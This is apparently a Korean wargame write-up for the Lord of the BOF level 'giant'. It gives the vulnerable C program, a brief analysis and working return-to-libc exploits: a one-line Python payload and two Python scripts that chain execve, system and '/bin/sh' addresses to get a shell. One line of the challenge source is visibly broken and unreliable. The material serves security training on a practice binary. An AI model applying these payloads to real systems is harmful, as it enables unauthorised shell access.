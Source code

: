 ```yaml
---
title: "[LOB]Level14. giant"
tags: [LOB, writeup, RTL]
author: eli_ez3r
key: 20180014
category: write-up
date: 2018-08-30 04:00:00 +0900
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[+ Only Execve](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



__execve : 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

-----

### 0x02. Exploit

```
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



-----



```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/bugbear/giant"

execve = 0x400a9d48
system = 0x40058ae0
bin_sh = 0x400fbff9

payload = "\x90"*44
payload = append(p32(execve))
payload = append(p32(system))
payload = append("\x90"*4)
payload = append(p32(bin_sh))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/bugbear/giant"

execve = 0x400a9d48
system = 0x40058ae0
bin_sh = 0x400fbff9
exit = 0x400391e0

payload = "\x90"*44
payload = append(p32(execve))
payload = append(p32(system))
payload = append(p32(exit))
payload = append(p32(bin_sh))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----
